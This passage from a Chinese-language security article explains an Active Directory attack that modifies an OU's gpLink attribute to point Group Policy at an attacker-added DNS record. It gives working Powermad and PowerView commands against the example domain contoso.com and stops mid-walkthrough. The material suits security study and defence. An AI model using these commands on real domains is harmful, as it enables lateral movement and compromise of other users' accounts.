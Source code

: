 当然，以上只是简化版的操作过程，只列出了与本文介绍的攻击方式有关的一些步骤。需要注意的是，步骤1及步骤2依赖于LDAP协议（`389/tcp`端口），步骤3及步骤4依赖于SMB协议（`445/tcp`端口）。



## 0x02 攻击概览

为了实现攻击目标，我们需要满足如下条件：

1、我们需要具备必要的权限，以修改某个OU属性。

2、我们必须能够在目标域中添加计算机对象。

3、我们必须能够在目标域中添加DNS记录。

幸运的是，在默认配置的AD中，任何域用户都满足第2及第3个条件。

整个攻击过程如下图所示：

[![](https://p4.ssl.qhimg.com/t01844619a8c4df600d.gif)](https://p4.ssl.qhimg.com/t01844619a8c4df600d.gif)



## 0x03 具体步骤

接下来我们以实际案例演示整个攻击过程。在这个示例中，目标域名为`contoso.com`。假设我们已经搞定`bob.smith`，该用户登录到`WRKSTN02`工作站，具备修改`Finance` OU的权限。我们的目标用户为`alice.jones`，该用户是`Finance` OU的一个成员：

[![](https://p1.ssl.qhimg.com/t01e64adbe5b554c493.png)](https://p1.ssl.qhimg.com/t01e64adbe5b554c493.png)

`Bob`是`WRKSTN02`的本地管理员，虽然这并不是这种攻击的一个（严格）条件，但还是能简化我们的攻击示例过程。

[![](https://p1.ssl.qhimg.com/t017f4e5a432e41257b.png)](https://p1.ssl.qhimg.com/t017f4e5a432e41257b.png)

首先，我们需要为`test.contoso.com`添加一个新的DNS `A`记录，将其指向`bob.smith`登录的计算机（`WRKSTN02`）。我们可以使用[Powermad](https://github.com/Kevin-Robertson/Powermad)中的`Invoke-DNSUpdate`来完成该任务：

```
Invoke-DNSUpdate -DNSType A -DNSName test -DNSData 10.1.1.22 -Realm contoso.com
```

[![](https://p5.ssl.qhimg.com/t01dab70bc4da44d3a7.png)](https://p5.ssl.qhimg.com/t01dab70bc4da44d3a7.png)

接下来，由于我们可以修改`Finance` OU的属性，我们可以将其`gpLink`属性指向如下目标：

```
[LDAP://cn=`{`980F65E5-95F3-4536-81CF-1A48691F2D67`}`,cn=policies,cn=system,DC=test,DC=contoso,DC=com;0]
```

我们可以使用如下[PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)函数来修改所需属性：

```
Get-DomainObject Finance | Set-DomainObject -Set @`{`'GpLink'='[LDAP://cn=`{`980F65E5-95F3-4536-81CF-1A48691F2D67`}`,cn=policies,cn=system,DC=test,DC=contoso,DC=com;0]'`}`
```
